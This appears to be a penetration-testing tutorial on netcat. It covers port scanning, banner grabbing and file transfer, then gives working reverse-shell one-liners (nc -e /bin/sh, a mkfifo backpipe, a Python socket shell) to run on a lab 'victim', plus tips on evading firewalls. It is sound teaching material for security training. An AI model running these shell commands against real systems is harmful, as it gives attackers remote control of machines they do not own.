


:orphan:

(using-netcat-as-a-reverse-shell)=

# Using Netcat as a Reverse Shell

In this post we will find out what a reverse shell is and look at practical implementation examples using netcat. Once we are able to execute code remotely, for example, using a known RCE-vulnerability it is important to continue further with more advanced post-exploitation phases.

## What is reverse shell?

As the name suggests, this is some kind of shell (some kind of access to certain resources), like SSH to access a remote machine, or a regular console in Linux, which is also a kind of shell.

Reverse - denotes the type of shell, the thing is that the meaning of such a shell is to connect (connect) with a remote host and constantly interact with it. That is, you execute a command on some machine, after which this machine connects to another and provides access along with this connection. As you can imagine, this thing is used after the exploitation of a vulnerability (for example, RCE) to fix it on the attacked machine and conveniently interact with it.

A reverse shell is a typical way to get around firewalls.
Rather than acting as a server and listening for the client's commands, the victim machine takes on the role of a client and connects back to the penetration tester's system.

The attacker's workstation would listen on a port that most firewalls allow, such as port `80` (the web server port) or `443`.


As we previously stated, one of the benefits of reverse shells is that most firewalls do not block outbound traffic, and in most circumstances, a firewall cannot distinguish between a user surfing the web and a backdoor communicating back to the attacker's machine:


But there is a caveat. If the shell connects directly to the attacker's machine, this exposes the attacker's control server, and traces can be detected by the network security monitoring services of the target network. To avoid this, attackers use pivoting techniques, we will try to talk about this in the following posts.

Depending on which system is installed on the victim's workstation and what services are running there, the reverse shell will be different, it may be `php, python, jsp, aspx` etc.

Before continuing let's talk about what netcat is.

## Netcat


Hackers have been utilizing a little but extremely effective tool for more than 20 years for a variety of purposes. This tool is called Netcat, and while it is well-known among hackers, few individuals outside of the hacker community are aware of it. Many people refer to it as the _"hacker's Swiss knife"_ since it is so powerful and helpful. Netcat is best defined as _"a basic tool that reads and writes data over network connections utilizing the TCP or UDP protocols,"_ according to the creators.

Netcat was built to help in network analysis. It was designed by a man we only know about by his nickname, _The Hobbit_. Without any financial reward, he gave this tool to the IT community, for which he received the well-deserved respect and recognition of the community.

When conducting penetration testing, you can use this tool to execute several tasks.
You can use it to open TCP and UDP connections between two machines on any port.

It can be used as a port scanning tool, similar to nmap, for port forwarding, proxying, and a simple web server, as well as to open a reverse shell backdoor for a hacker.

## Netcat: Practical Examples

1. checking for an open TCP port `22`:

```bash
nc -vn 192.168.56.103 22
```

`-n` - skip DNS lookup


1. checking for an open TCP port `80`:

```bash
nc -vn 192.168.56.103 80
```



1. TCP port scan via `netcat`:

```bash
nc -zvn 192.168.56.103 21 22 8180
```

`-z` - instructs netcat to scan without establishing a connection.
`-v` - verbosity to see the result.
`-n` - skip DNS lookup


1. you can also scan port ranges as shown in the example below:

```bash
nc -zvn 192.168.56.103 21-25
```


1. Root privileges are required to scan _UDP_ ports with `nmap`. If they are not there, in this case the `netcat` utility can also help us:

```bash
nc -zvnu 192.168.56.103 53 111
```


1. Banner grabbing is a technique for gathering information from targets via banners shown by various applications when we connect to them. This technique can expose information about the target's software. The following example demonstrates how to use Netcat to collect banners:

```bash
nc -v 192.168.56.103 21
```


1. Netcat can act as a simple web server to display `html` pages:

```bash
while true; do nc -lp 8888 < index.html; done
```


1. It is also possible to implement a simple two-machine chat service using Netcat as both client and server:

machine A (`192.168.56.1`):

```bash
nc -lp 4448
```

machine B (`192.168.56.103`):

```bash
nc 192.168.56.1 4448
```


As you can see after executing the commands, all characters entered into the terminal window on either machine will appear in the terminal window of the other machine.

1. Netcat can also be used to transmit files from one computer to another, including text and binary files. We establish a setup similar to the previous chat example, with some slight variations, to deliver a file from our _kali_ virtual machine to a _debian_ system. We'll set up a Netcat listener on port `4445` on a _debian_ system and route the output to a file called `hello.txt`:

```bash
nc -nlvp 4444 > hello.txt
```

On the kali system, we will transfer the `hello.txt` file to the _debian_ machine on TCP port `4444`:

```bash
nc -nv 192.168.56.103 4444 < hello.txt
```


Please note that Netcat has not provided us with any information on the file download process. We can simply wait a few seconds before checking to see if the file has completed downloading.

Let's now return to our main topic and show the simplest reverse shell.

### Listener

For the sake of simplicity, the victim in this example allows outgoing connections on any port (default iptables firewall rule). In our case, the listener port is `4444`
You can change it to your preferred port. Any program or utility that can open `TCP/UDP` connections or sockets can be considered a listener. In most cases, we prefer to use the `nc` utility.

```bash
nc -nlvp 4444
```


## Run reverse shell

Again for simplicity, in our examples target is a linux machine (`metasploitable 2`).

**1. Netcat**
Run on a victim machine:

```bash
nc -e /bin/sh 192.168.56.1 4444
```


**2. Netcat without -e**

Newer linux machine by default has traditional netcat with `GAPING_SECURITY_HOLE` disabled, it means you don’t have the `-e` option of netcat.

In this case, in the victim machine run:

```bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```



Here, We've first created a named pipe (AKA FIFO) called `p` using the `mkfifo` command. The `mkfifo` command will create things in the file system, and here use it as a _“backpipe”_ that is of type `p`, which is a named pipe. This FIFO will be used to shuttle data back to our shell’s input. We created our backpipe in `/tmp` because pretty much any account is allowed to write there.

**3. Python**

To create a semi-interactive shell using python, run:

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<LHOST>",<LPORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```


Python is almost always present in modern distributions, and the standard libraries are enough to make a reverse shell.

More examples are in [Reverse Shell Cheat Sheet-github)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

## Conclusion

In real cases, an attacker can get a shell using deception or social engineering methods, and usually advanced attackers do not use a regular direct TCP connection, in real attacks, the connection is usually disguised as legitimate HTTPS traffic, and sometimes even the connection can go through legitimate resources such as Telegram, Discord server, or another.

Regrettably, there is no way to completely prevent reverse shells. Any reverse shell connections are likely to be malicious unless you employ reverse shells for remote administration on purpose. Control all outgoing connections from the server using the built-in firewall; only allow access to the necessary IP addresses and ports; the rest must be blocked - this is the most basic, tried-and-true solution. This might be achieved by sandboxing or running the server in a minimal container.

> **Do you want to acquire practical penetration testing skills? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html).**
